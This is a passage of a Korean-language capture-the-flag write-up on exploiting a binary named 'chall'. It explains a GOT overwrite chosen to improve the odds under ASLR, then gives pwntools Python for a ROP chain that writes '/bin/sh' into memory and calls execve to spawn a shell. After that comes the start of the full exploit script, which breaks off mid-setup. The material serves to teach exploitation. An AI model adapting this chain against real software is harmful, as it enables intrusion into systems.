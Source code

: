 가장 가깝다는 것은 offset 차이가 가장 조금 난다는 것이고, 가까운 함수의 GOT를 덮어 쓴 것은 aslr에 의한 exploit 확률을 최대한 높일 수 있기 때문이다.

이후에는 `execve` 함수 인자를 맞춰주기 위해 `"/bin/sh\x00"`를 메모리에 써두고 가젯을 이용해 전달하는 과정만 수행해주면 된다.
``` python
    # read(0, 0x404900, 8) ; &0x404900 = "/bin/sh\x00"
    pop_rbp = 0x401168
    payload += p64(pop_rbp)
    payload += p64(0x404908)                # 0x404900 + 8
    payload += p64(0x401172)
    
    # execve("/bin/sh", 0, 0)
    # rdi = 0x404900, rsi = 0, rdx = 0
    mov_rdi_rsi = 0x40115a
    pop_rsi = 0x401165
    payload += p64(mov_rdi_rsi)
    payload += p64(pop_rsi)
    payload += p64(0)
    payload += p64(elf.plt['alarm'])

    payload += b"B" * (0x60 - len(payload))
    payload += p64(0x4047a0)
    payload += p64(0x401190)
    payload += b"\x00\x00\x00"
    log.info(f"payload len : {hex(len(payload))}")

    s.send(payload)
    sleep(0.5)
```

## 0x03. Payload
``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
from time import sleep
from argparse import ArgumentParser

BINARY = "chall"
LIBRARY = "libc-2.31.so"
CONTAINER = "44c6741a4dc0"
bp = {
    'main' : 0x4011B8,
    'leave_after_fgets' : 0x4011b6,
    'ret_after_fgets' : 0x4011B7,
}

gs = f'''
b *{bp["leave_after_fgets"]}
b *{0x401183}
continue
'''
context.terminal = ['tmux', 'splitw', '-hf']

def main(server, port, debug):
    if(port):
        s = remote("0.0.0.0", port)
        if debug:
            pid = os.popen(f"sudo docker top {CONTAINER} -eo pid,comm | grep {BINARY} | awk '{{print $1}}'").read()
            gdb.attach(int(pid), gs, exe=BINARY)
    else:
        s = process(BINARY, env={"LD_PRELOAD" : LIBRARY})
        if debug:
            gdb.attach(s, gs)
    elf = ELF(BINARY)
```